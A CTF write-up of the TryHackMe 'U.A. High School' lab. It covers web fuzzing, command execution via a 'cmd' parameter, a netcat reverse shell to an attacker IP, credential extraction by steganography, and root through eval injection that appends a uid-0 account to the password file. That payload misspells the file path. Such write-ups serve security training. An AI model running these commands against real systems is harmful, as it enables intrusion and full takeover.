

# U.A. High School - TryHackMe Writeup

**TL;DR:** Web fuzz → cmd parameter RCE → www-data → stego creds → deku → sudo feedback.sh → command injection → root

## Target
- Machine: `myheroacademia.thm`
- Date: 2025-6-13
- Environment: TryHackMe / CTF

## Steps:

1. Initial scan:
```bash
nmap -sV -sC -T4 -Pn myheroacademia.thm     


22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: U.A. High School
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

2. Directory Discovery:

```bash
gobuster dir -u http://myheroacademia.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php


/assets               (Status: 301) [Size: 311]
```

```bash
gobuster dir -u http://myheroacademia.thm/assets/ -w /usr/share/wordlists/dirb/big.txt -t 40 -x .php,.css,.txt


/images               (Status: 301) [Size: 318]
index.php            (Status: 200) [Size: 0]
styles.css           (Status: 200) [Size: 2943]
```


#### Web Shell Discovery
Parameter fuzzing revealed a command injection vulnerability:
```bash
ffuf -u http://myheroacademia.thm/assets/index.php?FUZZ=ls -w /usr/share/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt -fs 0 -mc all
```
Vulnerable Parameter: `cmd`




#### Command Execution Verification

Testing the discovered parameter:
```bash
# Test command execution
curl 'http://myheroacademia.thm/assets/index.php?cmd=id'

# Base64 encoded response received:
# dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK

# Decode the response
echo 'dWlkPTMzKHd3dy1kYXRhKSBnaWQ9MzMod3d3LWRhdGEpIGdyb3Vwcz0zMyh3d3ctZGF0YSkK' | base64 -d

# Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Revese Shell:

```bash
# Setup listener
nc -lnvp 4444

# Execute reverse shell
curl 'http://myheroacademia.thm/assets/index.php?cmd=busybox%20nc%20YOUR_IP%204444%20-e%20bash'

# Upgrade shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

#### Lateral Movement

Hidden Content Discovery:
```bash
cat /var/www/Hidden_Content/passphrase.txt 
# QWxsbWlnaHRGb3JFdmVyISEhCg==

echo  'QWxsbWlnaHRGb3JFdmVyISEhCg' | base64 -d 
# AllmightForEver!!!

```

Steganography Analysis:
```bash
# Transfer image to attacker machine
cd /var/www/html/assets/images/
python3 -m http.server 8000

#on Attack machine:
wget http://myheroacademia.thm:8000/oneforall.jpg

# Extract hidden data
steghide extract -sf oneforall.jpg
# Passphrase: AllmightForEver!!!

#Credentials Extract
cat creds.txt

Hi Deku, this is the only way I've found to give you your account credentials, as soon as you have them, delete this file:

deku:[REDACTED]
```

## User flag

Connect via ssh and get the flag:
```bash
ssh deku@myheroacademia.thm

#deku@myheroacademia.thm:~$ id
uid=1000(deku) gid=1000(deku) groups=1000(deku)

#get the Flag
cat user.txt 

#THM{[REDACTED]}

```
## Root flag

Sudo Privilege Discovery:
```bash
sudo -l
[sudo] password for deku: 


# User deku can run the following commands as root:
    (ALL) /opt/NewComponent/feedback.sh
```

Analyse the script:
```bash
ls -la /opt/NewComponent/feedback.sh

#-r-xr-xr-x 1 deku deku 684 Jan 23  2024 /opt/NewComponent/feedback.sh
```
```bash
cat feedback.sh 
#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi

```
#### Analysis

The script has:

-   Owner: deku:deku
-   Permissions: r-xr-xr-x (555) - readable and executable by everyone, but not writable
-   Command injection vulnerability: The eval "echo $feedback" line is dangerous

The script attempts to filter out dangerous characters but misses some critical ones:
```bash
if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    eval "echo $feedback"  # VULNERABLE!
```


#### Exploitation

```bash
# Create password hash for new root user
mkpasswd -m md5crypt
# Enter password: 1337
# Generated hash: $1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1
```

formatting:
`r00t:$1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1:0:0:r00t:/root:/bin/bash`

```bash
# Execute exploitation
sudo /opt/NewComponent/feedback.sh

# Payload
r00t:$1$2ro5r3E7$5YVTuGTjgtgHW2J9DhuYR1:0:0:r00t:/root:/bin/bash >> /etc/passwod 
```


Root Access Achievement:
```bash
su r00t
Password: 1337

 
root@myheroacademia.thm:/opt/NewComponent# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag:
```bash
root@myheroacademia:/opt/NewComponent# cat /root/root.txt
__   __               _               _   _                 _____ _          
\ \ / /__  _   _     / \   _ __ ___  | \ | | _____      __ |_   _| |__   ___ 
 \ V / _ \| | | |   / _ \ | '__/ _ \ |  \| |/ _ \ \ /\ / /   | | | '_ \ / _ \
  | | (_) | |_| |  / ___ \| | |  __/ | |\  | (_) \ V  V /    | | | | | |  __/
  |_|\___/ \__,_| /_/   \_\_|  \___| |_| \_|\___/ \_/\_/     |_| |_| |_|\___|
                                  _    _ 
             _   _        ___    | |  | |
            | \ | | ___  /   |   | |__| | ___ _ __  ___
            |  \| |/ _ \/_/| |   |  __  |/ _ \ '__|/ _ \
            | |\  | (_)  __| |_  | |  | |  __/ |  | (_) |
            |_| \_|\___/|______| |_|  |_|\___|_|   \___/ 

THM{[REDACTED]}

```

